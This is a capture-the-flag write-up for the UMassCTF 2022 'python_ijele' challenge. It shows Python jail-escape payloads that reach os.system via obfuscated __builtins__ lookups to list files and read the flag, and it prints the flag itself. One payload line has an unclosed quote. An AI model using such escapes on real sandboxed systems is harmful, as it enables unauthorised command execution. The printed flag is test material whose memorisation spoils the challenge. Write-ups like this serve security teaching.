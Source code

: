 # UMassCTF 2022 - python_ijele
- Write-Up Author: Wendy \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag: UMASS{congrats-now-you-are-multilingual}

## **Question:**
python_ijele

>Challenge description

Google translate broke when I was making the instructions for this python jail

nc 34.148.103.218 1227

## Write up

From the challenge description, I need to translate below instruction.
```
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
```

```
Translated by Google: You have to cracked my language code. Join the word cow
```

Great! Type 'cow' to contines the challenge. Then I start to escape Python Jail.

```
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()))

```

![img](./img/1.png)

```

print(__builtins__.__dict__['__IMPORT__'.lower()]('cat flag))

```

![img](./img/2.png)

```
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls'))

```

![img](./img/3.png)


```
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag'))

```

![img](./img/4.png)

> UMASS{congrats-now-you-are-multilingual}
